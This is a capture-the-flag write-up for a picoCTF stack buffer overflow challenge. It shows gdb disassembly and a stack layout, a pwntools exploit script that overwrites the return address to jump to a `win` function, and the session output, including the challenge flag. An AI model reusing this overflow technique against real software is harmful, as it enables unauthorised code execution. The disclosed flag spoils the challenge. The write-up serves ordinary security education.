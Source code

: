 # BOF 1

## Code inspection

Looking at the `vuln` function, we see a clear buffer overflow vulnerability.

Our goal is to jump to the `win` function, which prints the flag.

## Memory layout

Using gdb, we can see that the buffer is at `ebp - 0x28`

```
0x0804929a <+25>:	lea    eax,[ebp-0x28]
0x0804929d <+28>:	push   eax
0x0804929e <+29>:	call   0x8049050 <gets@plt>

```

Let's see the memory layout:

```
[low]

buf             <----- EBP - 40

old_ebp         <----- EBP

return_address  <----- EBP + 4

[high]
```
## Getting the flag

In order to get to the return address, we need to overwrite the 40 bytes of local variables,
the old EBP, and only then overwrite the return address to be the one we want.

```python
from pwn import *

exploit_str = "1" * 40 + "2" * 4

conn = connect("saturn.picoctf.net", 59710)

print(conn.recvline().decode())

exploit_str = exploit_str.encode() + p32(0x80491f6)

file = open("bof_exploit", "wb")
file.write(exploit_str)
file.close()

print("Sending {}".format(exploit_str))
conn.sendline(exploit_str)

print(conn.recvline().decode())
print(conn.recv())

conn.close()

```

We get:
```
[x] Opening connection to saturn.picoctf.net on port 59710
[x] Opening connection to saturn.picoctf.net on port 59710: Trying 18.217.86.78
[+] Opening connection to saturn.picoctf.net on port 59710: Done
Please enter your string: 

Sending b'11111111111111111111111111111111111111112222\xf6\x91\x04\x08'
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

b'picoCTF{addr3ss3s_ar3_3asy_ad2f467b}'
[*] Closed connection to saturn.picoctf.net port 59710

```
